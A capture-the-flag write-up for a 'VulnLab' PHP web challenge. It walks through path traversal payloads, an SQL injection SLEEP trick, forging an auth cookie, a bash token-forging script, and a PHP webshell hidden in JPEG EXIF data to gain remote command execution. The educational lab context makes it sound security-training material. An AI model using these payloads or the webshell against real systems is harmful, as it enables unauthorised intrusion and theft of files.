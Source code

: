# VulnLab

<figure><img src="../../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Upon browsing our VulnLab instance we immediately notice a request to `/thumbnail?file=bg2.jpg`. The first thing that comes to mind is of course path traversal. In fact if we request `/etc/passwd` with a classic payload we get an error message:

```
GET /thumbnail?file=../../../../../../../etc/passwd HTTP/1.1

Reading content from this directory is denied
```

which is different from say this one:

```
GET /thumbnail?file=../../../../../../../tmp/foobar HTTP/1.1

File doesn't exist
```

We keep this information in mind for the moment: it will be useful later. The second thing that stands out are requests to an `/analytics` endpoint:

```
GET /analytics?page=/news/1 HTTP/1.1
```

It's easy to see that `/analytics` is vulnerable to SQL injection so we can dump the db where we find a users table:

```
Database: vulnlab
Table: user
[1 entry]
+----+----------------------------------+-----------+
| id | password                         | username  |
+----+----------------------------------+-----------+
| 1  | ******************************** | bob.jones |
+----+----------------------------------+-----------+
```

The hash did not crack - at least for me - but now we have a valid username we can use and try bruteforcing the login form:

<figure><img src="../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

Finding a valid password is of course left as an exercise to the reader, but like in any Adam's challenge, when bruteforce is involved you can just use wordlists suggested on HackingHub.io.

We now have a new endpoint `/account/files` that lists our user's medical results:

<figure><img src="../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

```
GET /account/files HTTP/1.1

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

Here we notice that we have "files" list where bob.jones, our username, is somehow involved in the path.

More importantly, upon logging in we have a strange cookie that contains some useful information:

```
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjoiNmI3ZjZjYzI0NjhjNzBhN2U5N2I0MjM3ZGEyMDBmY2YifQ%3D%3D
```

The cookie decodes to

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":"6b7f6cc2468c70a7e97b4237da200fcf"}
```

and the info inside the JSON data attribute decodes to:

```
{"id":2,"username":"bob.jones"}
```

Maybe if we are able to change the data inside the cookie to a path traversal payload like `"username"="../../../../etc/passwd"`, we can try to read arbitrary files.

This part can be tricky: the auth hash authenticates the information inside the data attribute of our JSON. Without knowing some secret information we cannot alter what's inside data. But we can fool the hash validation by changing the "auth" string with a boolean true:

```
{"data":"eyJpZCI6MiwidXNlcm5hbWUiOiJib2Iuam9uZXMifQ==","auth":true}
```

Notice that here we are using a "counterfit" token:

```
GET /account/files HTTP/1.1
Cookie: token=eyJkYXRhIjoiZXlKcFpDSTZNaXdpZFhObGNtNWhiV1VpT2lKaWIySXVhbTl1WlhNaWZRPT0iLCJhdXRoIjp0cnVlfQ%3d%3d

{"files":[{"link":"\/uploads\/bob.jones\/medical-report-to-complete.pdf","name":"medical-report-to-complete.pdf","extension":"pdf","size":60154}]}
```

This not only works without giving errors, but it allows us to alter the inner content of the data attribute. Using a very handy burp extension which is called Hackvector (or of course constructing payloads manually) we can use something like this:

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc/passwd"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"error":"Not a valid directory"}
```

and we get an interesting error. What if we try to look at /etc or /tmp?

```
GET /account/files HTTP/1.1
Host: veap5r6i.eu1.ctfio.com
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../../etc"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>

{"files":[{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/.pwd.lock","name":".pwd.lock","extension":"lock","size":0},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/X11","name":"X11","extension":"","size":4096},{"link":"\/uploads\/..\/..\/..\/..\/..\/..\/..\/etc\/adduser.conf","name":"adduser.conf","extension":"conf","size":3028},...
```

Interestingly enough we have a way to list directories.

If you want to play around an alternative way is using a simple bash script:

{% code title="lfi-exploit.sh <domain> <path>" %}
```bash
#!/bin/sh

inside='{"id":2,"username":"'$2'"}'
inside=$(/bin/echo -n $inside | base64)
token=$(/bin/echo -n '{"auth":true,"data":"'$inside'"}' |base64)


echo $token
curl $1/account/files -H "Cookie: token=$token" | jq
curl $1/account/files -H "Cookie: token=$token" | jq  -r '.files[] |.link'
```
{% endcode %}

For flag number 2 it's enough to list `../` to find a secret file.

But now what? Remember that at this point we have three things that we have to put together to reach a much better result (RCE in the end):

1. a SQL injection on `/analytics?page=/news/1`;
2. the possibility to list directories, and in particular `/tmp`;
3. maybe (we are not sure yet), the possibility to include files from `/tmp` directory via `/thumbnail?file=../../../../../../../tmp/foobar`.

Are we able to upload files to /tmp? Sure: during file upload PHP, the language of choice by Adam, creates temporary files under /tmp. Files have a random name, so it will be hard to list /tmp/ with the second vulnerability unless we can also let the server SLEEP during upload using the SQL injection. So we can try something like this:

```
POST /analytics?page=a';SELECT+SLEEP+(60)%23 HTTP/1.1
...
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Length: 221

------WebKitFormBoundaryoy6htU17IDYnPK7v
Content-Disposition: form-data; name="file_to_upload"; filename="shell.php"
Content-Type: text/php

<?php system($_GET['cmd']); ?>
------WebKitFormBoundaryoy6htU17IDYnPK7v--
```

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

this gives us 60 second to list files under /tmp/:

```
GET /account/files HTTP/1.1
Cookie: token=<@burp_urlencode><@base64>{"data":"<@base64>{"id":2,"username":"../../../../../../tmp/"}<@/base64>","auth":true}<@/base64><@/burp_urlencode>
```

<figure><img src="../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

So now it's just a matter of including what we uploaded and...

```
GET /thumbnail?file=../../../../../../../tmp/phpzaP6ow HTTP/1.1

HTTP/1.1 200 OK
Server: nginx/1.22.0 (Ubuntu)
Date: Sat, 06 Jul 2024 15:02:10 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
Content-Length: 22

Not a valid image file
```

we need to overcome the last defense with a real image that also contains actual php code.

Please note that a valid jpg image is necessary because, as you will see once you have a shell, there is this restriction in place:

```php
if (@exif_imagetype($file)) {
	header('Content-Type: image/jpg');
	include_once($file);
} else {
	die("Not a valid image file");
}
```

I order to facilitate the process we can create a very simple form on our machine to do the POST:

```html
<form method="post" enctype="multipart/form-data" action="https://xyz.eu1.ctfio.com/analytics?page=a';SELECT SLEEP(300)-- -">
        <input type="file"  name="file_to_upload" >
        <input type="submit" name="submit">
        </form>
```

and before uploading a real jpg we can insert in it a PHP payload with exiftool:

```bash
exiftool  -author='<?php system($_GET["cmd"]); ?>' test.jpg
```

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

This part can be quite tricky but in the end you will have command exectuion and you can also grab a valid shell

```bash
www-data@3af02839d4cf:/$ wc -c /flag.txt
46 /flag.txt
```
